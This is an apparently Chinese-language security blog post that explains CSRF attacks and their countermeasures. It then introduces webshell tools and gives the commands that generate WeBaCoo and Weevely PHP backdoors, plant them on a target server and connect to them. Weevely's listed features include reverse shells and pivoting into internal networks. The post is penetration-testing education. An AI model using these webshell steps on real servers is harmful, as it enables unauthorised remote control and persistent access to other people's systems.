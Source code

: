 ```yaml
---
title: CSRF和WebShell
date: 2018-02-05 16:08:24
categories: 安全
tags: 漏洞
---
```

CSRF（Cross-site request forgery）
---
与xss经常混淆，可以从信任的角度来区分
XSS：利用用户对站点的信任
CSRF：利用站点对已经身份认证的信任
结合社会工程学在身份认证会话过程中实现攻击
+ 修改帐号密码、个人信息（电话、收货地址）
+ 发送伪造的业务请求（网银、购物、投票）
+ 关注他人社交帐号、推送博文
+ 在用户非自愿、不知情的情况下提交请求

CSRF 典型的场景：
攻击通过在授权用户访问的页面中包含链接或者脚本的方式工作。例如：一个网站用户Bob可能正在浏览聊天论坛，而同时另一个用户Alice也在此论坛中，并且后者刚刚发布了一个具有Bob银行链接的图片消息。设想一下，Alice编写了一个在Bob的银行站点上进行取款的form提交的链接，并将此链接作为图片src。如果Bob的银行在cookie中保存他的授权信息，并且此cookie没有过期，那么当Bob的浏览器尝试装载图片时将提交这个取款form和他的cookie，这样在没经Bob同意的情况下便授权了这次事务。

漏洞利用条件：
+ 被害用户已经完成身份认证
+ 新请求的提交不需要重新身份认证或确认机制
+ 攻击者必须了解WEB APP请求的参数构造
+ 诱使用户出发攻击的指令（社会工程学）

利用Burpsuite的CSRF Poc Generator可以生成代码
![](http://upload-images.jianshu.io/upload_images/5834506-097ede2ada1536cd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)  
点击之后就会自动生成html代码
自动扫描程序的检测方法
+ 在请求和相应过程中检查是否存在anti-CSRF token名
+ 检查服务器是否验证anti-CSRF token的名值
+ 检查token中可编辑的字符串
+ 检查referrer 头是否可以伪造

对策
+ Captcha
+ anti-CSRF token
+ Referrer头
+ 降低会话超时时间

WEBSHELL介绍
---
webshell就是一些放置在服务器的脚本文件通过参数来执行操作系统的一些指令
一些WEBSHELL工具介绍：
+ 中国菜刀
据说官网是：http://www.maicaidao.co/ 注意：不确定这个版本是否有木马，网上有很多版本安插了自己的木马，如果执行的话就中病毒了，所以请保证在虚拟机执行，之后恢复
操作方式：将菜刀文件下的服务器代码注入到服务器，然后执行客户端程序，就能连上目标服务器
+ WeBaCoo（Web Backdoor Cookie）
类终端的shell，编码通信内容通过cookie头传输，隐蔽性较强，只支持php
cm：base64编码的命令
cn：服务器用于返回数据的cookie头的名
cp：返回信息定界符
+ Weevely
隐蔽的类终端php webshell
30多个管理模块
  + 执行系统命令，浏览文件系统
  + 检查服务器常见配置错误
  + 创建正向，反向TCP shell 连接
  + 通过目标 计算机代理HTTP流量
  + 从目标计算机运行端口扫描，渗透内网
  + 支持连接密码

由于中国菜刀网上不确定的版本太多，就不介绍了，主要介绍WeBaCoo、Weevely

WeBaCoo
---
生成服务端`webacoo -g -o a.php` 
然后把生成的`a.php`注入到目标服务器
最后生成客户端程序`webacoo -t -u http://1.1.1.1/a.php`连接目标服务器
更多参数的使用可以`webacoo -h`查看
Weevely
---
生成服务端`weevely generate <password> b.php`其中的<password>是自己设置的连接密码，以后客户端都要使用连接密码，生成的`b.php`文件在/var/share/weevely目录下
然后把`b.php`注入到目标服务器
最后连接`weevely  http://1.1.1.1/b.php <password>`连接目标服务器
在连接完目标服务器的shell下输入命令`help`可以查看Weevely的模块

关于怎么注入文件，之前的博文已经有介绍了，可以去看看学习一下

